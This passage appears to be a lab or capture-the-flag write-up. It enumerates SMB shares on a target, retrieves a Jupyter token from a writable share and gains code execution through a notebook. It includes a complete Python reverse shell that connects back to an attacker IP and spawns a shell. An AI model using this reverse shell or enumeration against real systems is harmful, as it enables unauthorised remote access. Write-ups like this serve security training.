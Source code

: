 We have a list of some users:
```
Administrator
Guest
DefaultAccount
WDAGUtilityAccount
None
dev-datasci-lowpriv
sshd
```

```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
datasci-team    READ,WRITE      
IPC$            READ            Remote IPC
```
We can read and write to the `datasci-team` share

We can also read `IPC$`

We can access the share with `smbclient -N //10.10.111.30/datasci-team`
	In here, we find the jupyter notebooks token in `misc/jupyter-token.txt`

`067470c5ddsadc54153ghfjd817d15b5d5f5341e56b0dsad78a`

# Exploitation

### RCE

This isn't exactly a vulnerability in itself, but we can add a new python3 notebook and get it to execute code for us. 

I got a revshell from [revshells.com](revshells.com)

```python
import os,socket,subprocess,threading;
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()

def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.6.0.114",1337))

p=subprocess.Popen(["sh"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)

s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()

p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()

try:
    p.wait()
except KeyboardInterrupt:
```